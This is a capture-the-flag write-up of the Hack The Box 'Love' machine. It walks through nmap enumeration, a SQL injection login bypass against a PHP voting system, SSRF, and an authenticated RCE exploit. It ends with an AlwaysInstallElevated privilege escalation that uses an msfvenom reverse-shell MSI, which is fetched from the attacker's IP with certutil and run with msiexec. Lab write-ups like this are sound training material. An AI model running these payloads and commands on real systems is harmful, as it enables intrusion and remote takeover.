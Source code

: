 ```yaml
---
title: Love Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
| /: 
|_HTTP-TITLE: VOTING SYSTEM USING PHP |_HTTP-COOKIE-FLAGS: |: 
|_ httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_ http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
|_ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
|_Not valid before: 2021-01-18T14:00:16
|_Not valid after: 2022-01-18T14:00:16
445/tcp open microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp open unknown
7680/tcp open pando-pub?
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
| 311: 
|_ Message signing enabled but not required
| smb2-time: 
| date: 2023-02-07T19:22:11
|_ start_date: N/A
| smb-security-mode: 
| account_used: <blank>
| authentication_level: user
|_ challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
| OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
| OS CPE: cpe:/o:microsoft:windows_10::-
| Computer name: Love
| NetBIOS computer name: LOVE\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2023-02-07T11:22:12-08:00
|_clock-skew: mean: 3h01m33s, deviation: 4h37m09s, median: 21m31s
```

We can observe the domain `staging.love.htb`. 
Also note the presence of port 5000, which we cannot access at the moment.

## User Exploit

If we access the domain, we can see how we are facing a voting system created in PHP, so let's look for an exploit:

Luckily we found a SQL inejction that allows us to bypass the authentication process: `php/webapps/49843.txt.

Which says that if we put the following payload in the login window of /admin/: 

```
login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VKK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- - -
```

We bypass the login panel. And as we can see: if we intercept the request with burpsuite and enter the data, we get into the admin account.

However, for now we can't do much, so let's go to the other page.

If we click on home, we see that we have a URL scanner, in which if we put http://127.0.0.1 , we can make a SSRF, so let's take advantage of it.

We are going to try to see what is in the port 5000: And it gives us some credentials to enter the voting system as admin. However, this is of little use, since we have already bypassed it previously. 

If we look again at some exploit with searchsploit, we find a RCE but for when we are authenticated. As we are already authenticated, we are going to use it.

However, the exploit will not work at all. This is because the exploit is trying to access /voting_system. As this does not exist, let's remove it from the script.

And we would get the reverse shell. 

## Root Exploit

To find a way to escalate privileges, let's download WinPeas, pass it to the victim machine and run it:

And we see that AlwaysInstallElevated is installed and its value is 1.

We see that in hacktricks there is an article to escalate privileges using this vulnerability:
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

This will create a file called reverse.msi, which we will have to upload to the victim machine:

To do this we start a server with python on our local machine and run the following command on the victim machine:

```powershell
certutil.exe -f -urlcache -split http://10.10.14.46:8000/reverse.msi reverse.msi
```

Once we have it uploaded, we listen on the port that we have defined when creating the file with metasploit and we will run it: 
```PowerShell
msiexec /quiet /qn /i /reverse.msi 
```

And we will receive the shell as Admin and we will be able to read the root.txt flag.



